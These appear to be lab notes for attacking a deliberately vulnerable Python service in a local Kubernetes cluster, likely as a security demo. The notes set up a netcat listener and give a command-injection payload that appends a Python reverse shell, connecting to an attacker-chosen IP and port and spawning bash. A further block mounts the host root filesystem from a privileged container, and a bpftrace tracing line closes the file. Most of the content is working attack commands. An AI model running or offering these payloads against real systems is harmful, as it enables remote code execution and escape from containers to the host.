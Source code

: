 
# run netcat to capture incomming reverse shell in a new terminal
nc -lvp <port>

# Ip (docker ip if run with k3d or similar)
ifconfig | grep docker0 -A 1

Use the docker ip as the <ip>

# Test exploit commands
Replace <ip> and <port> with your own values

## The exploit, run from a vulnerable input prompt
Run this appended to a vulnerable RCE shell command like the one on vulnerable-python/search?q=

### Using Python because we know the vulnerable service is python
Url encoding makes it annoying to acomplish the desired redirection of the file descriptors when trying to spawn the reverse shell. So we use the python way because we know for a fact that it has python available as it is a python container
With portforward to vulnerable-python deployment
```bash
localhost:5000/search?q=<something>||export RHOST="<IP>";export RPORT=<PORT>;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```

# Mounting rootFS in privilege container
```
cat /proc/cmdline
findfs UUID=b4622f81-d047-4c8b-86ea-a7dcfb3dd58f
>/dev/sda3
mkdir /mnt-test && mount /dev/sda3 /mnt-test
cd /mnt-test/var/lib/docker

```

# Ebpf one liners with bpftrace
- list trace points
    bpftrace -l 'tracepoint:syscalls:sys_enter_*' 